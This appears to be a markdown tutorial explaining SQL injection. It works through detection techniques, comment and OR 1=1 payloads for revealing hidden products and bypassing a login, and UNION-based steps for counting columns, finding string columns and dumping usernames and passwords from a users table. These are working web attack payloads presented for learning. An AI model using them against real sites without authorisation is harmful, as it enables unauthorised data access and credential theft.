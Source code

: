 SQL injections are web attacks that are used performed by attackers to manipulate and interfere with queries that are sent to the database server. This attack allows a threat actor to view data that they are not able to view normally.

### Detecting SQL injection vulnerabilities.
#### Automated
Burp suite's vulnerability scanner can automate the discovery of SQL injection vulnerabilities.
#### Manually
1. Submitting the `' ` character and looking for errors and other anomalies.
2. Submitting boolean conditions such  as `OR 1=1` and looking for differences in application responses.
3. Submitting payloads desgined to trigger time delays when executed within a SQL query and looking for differences in the time taken to respond.

### Retrieving hidden data
Take an example of an ecommerce site that only shows you products that have been is available for sale and hides what is not available for sale. This application may make the following query to the database

```sql
SELECT * FROM PRODUCTS WHERE CATEGORY = 'Shoes' AND avalialble = 1;
```

The restriction 1 is used to hide products that are not available which means that unavailable products may be tagged as 0.

On the browser, the developer may present this in the url as

```url
https://website.com/products?category=Shoes
```

This gives an attacker the ability to create an attack like

```url
https://website.com/products?category=Shoes'--
```

This URL comments will make the SQL query look as follows

```sql
SELECT * FROM products WHERE category = 'Shoes'--' AND available =1
```

This attack removes the other part of the SQL statement and shows all the shoes that are available on the site. Alternatively, the attacker might add a different payload which has the same impact.

```url
https://website.com/products?category=Shoes'+OR+1=1--
```

This might result to the query below

```sql
SELECT * FROM products WHERE category = 'Shoes' OR 1=1--' AND available - 1
```

This query returns all query will return all items where either the category of Shoes, or 1 is equal to 1 since 1 is always true.

### Subverting application logic.

In an application where one has to login with a username and password when a user submits a username and password, the application does a check by running the below SQL query

```sql
SELECT * FROM users WHERE username = '<username>' AND password = '<password>'
```

We can login as any user by simply adding a `'--` to our username which will comment the rest of the SQL statement and make it look like the following

```sql
SELECT * FROM users WHERE username = 'kiiru4reals'--' AND password = ''
```

### Union-based SQL injection
In situations where the results of a SQL query are returned within the application's responses, an attacker can leverage the `UNION` keyword to retrieve data from other tables within the database..

The `UNION` keyword allows one to execute more than one query and append results to the original query.

```sql
SELECT column_1, column_2 FROM table_x UNION SELECT column_3, column_4 FROM table_y
```

For this query to work we need to ensure that;
1. Individual queries must return the same number of columns.
2. The data types in each column must be compatible between the individual queries.

To successfully perform a SQL injection UNION attack we need to assess the following criteria:
1. How many columns are returned from the original query?
2. Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
We have a site that has a category filter that is vulnerable to UNION based SQL injection, we can determine the number of columns that are being called by a query by using either `ORDER BY` or `UNION SELECT` 

An example can be as follows:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
This goes on and on and on a SQL related error will be provided when the number of NULLs are equal to the number of columns.

The `ORDER BY` attack is used as follows:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

#### Finding columns with useful data types
To discover columns that have a useful data which is more often than not in string form, we need to find a column that is compatible with string data. Once we determine the number of columns that are required, we can test whether a column holds string data by using `UNION SELECT` payloads that place a string value into each column.

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

If the datatype of a column is not compatible with string data, the injected query will cause a database error. If there is no error, the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.
#### Using a SQL injection UNION attack to retrieve interesting data
Once we have discovered columns that are suitable for us to retrieve data (in this case string data) we can go ahead and retrieve data. To ensure that this attack is successful we need to ensure that:
1. The original query returns the exact number of columns that you want (so if you want to get two columns we need to look for a query that retrieves two columns)
2. The place of injection should be between the `WHERE` clause.
3. The table you want to retrieve from and the columns exist.

For example, we can dump contents from the `users` table by running the following command

```sql
' UNION SELECT username, password FROM users--
```

### Cheatsheet

The SQL injection cheatsheet can be found [here](https://portswigger.net/web-security/sql-injection/cheat-sheet) 